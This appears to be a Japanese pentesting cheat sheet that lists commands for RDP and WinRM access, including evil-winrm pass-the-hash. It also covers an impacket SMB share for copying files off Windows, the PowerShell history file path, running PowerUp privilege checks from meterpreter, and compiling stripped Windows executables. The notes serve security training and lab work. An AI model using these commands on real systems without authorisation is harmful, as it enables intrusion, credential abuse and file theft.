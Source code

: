 # Tips

## リモート接続

### RDP

```shell
xfreerdp /u:<user> /p:<password> /v:<ip> /w:1280 /h:800 /cert:ignore　+clipboard

xfreerdp /u:<user> /p:<password> /v:<ip> /size:90% /cert:ignore +clipboard

xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:90% +clipboard

# remmina (GUI)
sudo apt install remmina
```

### WinRM

```shell
evil-winrm -i <ip> -u <user> -p <password>

# Pass-the-Hash
evil-winrm -i <ip> -u <user> -H <hashvalue>

evil-winrm -i <domain>\\<ip> -u <user> -H <hashvalue>
```

### SSH

```shell
ssh <domain>\\<user>@<ip>
```

## ファイル共有

Linux の共有フォルダに、Windows からアクセスする

```shell
python3 -m pipx install impacket
```

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
# username と password は省略可
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

## Powershell

### Powershell の履歴

```powershell
%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Powershell プロセスのログ

```text
Application and Services Logs -> Microsoft -> Windows -> PowerShell -> OperationalApplication and Service Logs -> Windows PowerShell
```

### meterpreter から Powershell の起動

（例）
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```shell
meterpreter > load powershell
meterpreter > posershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

## コンパイル

```shell
apt install mingw-w64

# c
i686-w64-mingw32-gcc calc.c -o calc-MSF.exe

# cpp
i686-w64-mingw32-g++ calc.cpp -o calc-MSF.exe

# シンボル削除
strip --strip-all aaa.exe
x86_64-w64-mingw32-strip --strip-all aaa.exe
```

## LOLBAS

Living Off The Land Binaries, Scripts and Libraries

https://lolbas-project.github.io/
